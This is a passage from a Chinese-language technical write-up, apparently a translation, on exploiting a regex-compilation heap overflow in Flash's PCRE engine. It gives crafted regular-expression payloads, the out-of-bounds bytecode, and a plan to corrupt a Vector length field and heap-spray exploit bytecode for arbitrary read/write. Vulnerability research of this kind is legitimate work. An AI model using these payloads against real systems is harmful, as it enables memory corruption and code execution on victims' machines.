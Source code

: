 赞，好事成双。当分配大小大于99*4=396字节时，我们可以差不多控制一个堆创建之后的一个DWORD了。由于我们需要的是写入分配区域之后，所以看看Flash的堆分配器，它告诉我们，504字节是我们准确匹配到的第一个区域的大小，所以我们需要 md->top_backref == 41 这么大来获得这个数字。这个简单，只要我们加一堆捕获组和回溯引用即可。

```
(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41(\c?0?4+)?(?43)

```

另一个我们将要碰到的问题是Flash并不会校验正则表达式是否编译成功，如果我们第一个堆分配失败的话，find_bracket将不会找到一个匹配该组的数据，因此编译也会失败当调试的时候这个是相当复杂的，所以我们可以在开头加一个常量，这样我们就能用它来测试是否编译成功了。

```
(c01db33f|(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41(\c?0?4+)?(?70))

```

像我们之前提到的一样，我们需要一次堆分配来让我们的代码正好位于从我们提供的正则式中编译出的字节码的缓存位置之后。为了更简单一些，我们会把正则式贴到缓存后面，这样对Flash的堆分配器来说，这就又是一个不错的数字了，下一个可用单元是576字节，每个字符匹配增加2个字节。

```
(c01db33f|(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41AAAAAAAAAAAAAAAAAAAAAAAAAAA(\c?0?4*)?(?70))

```

我们需要通过更多的修改来让这个将当前匹配的长度复写问题产生作用，所以我们需要有更简单的方式来控制它。我们可以调整第一组来让匹配任意个数的不同字符，如下：

```
(c01db33f|(B*)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41AAAAAAAAAAAAAAAAAAAAAAAAAAA(\c?0?4*)?(?70))

```

注：漏洞代码中，我们会在选定的字符里面随意替换B，原因是Flash会缓存编译的正则式，无论成功与否都会，如果我们的分配失败了，我们还是需要强制它重新编译正则的。

所以，这就意味着漏洞最初的编译处理工作已经完成了。我们已经知道如何通过这个跨界写的字节码payload，是：

```
0000 5e00010046  94 CBRA             [1, 70]
0005 5e00000000  94 CBRA             [0, 0]
000a 6d         109 ACCEPT

```

为了成功写入，最后的ACCEPT是必须的，我们需要让组0成为一个匹配项，ACCEPT将强行完成这个动作，而且还有个好处是它使用的字节码最少。

现在，如果你一路看下来，可能觉得这个东西实在是麻烦。在许多情况下，这差不多就是漏洞的开始：我们控制了分配的大小，而且我们把我们的匹配项的长度写到了它的末尾，虽然说要覆写一个指针是个相当烦人的事情。但是好消息是在Flash中有一个一了百了的解决反感：Vector.，我们可以分配任意大小的这种对象，而且它的最开始的一个DWORD就是一个长度域。当我们改写了这个长度域，在产生任意读写的道路上，我们就不会有任何阻碍了，而且也将是一个非常稳定的漏洞代码。

0x01 编译正则式
==========

* * *

首先我们需要分配一大组大小504的缓冲区（和我们编译的正则式一样），然后用我们的恶意字节码填充它：

```
 _______________________________________________________________________________________
|exploit-bytecode------------|exploit-bytecode------------|exploit-bytecode------------|
`````````````````````````````````````````````````````````````````````````````
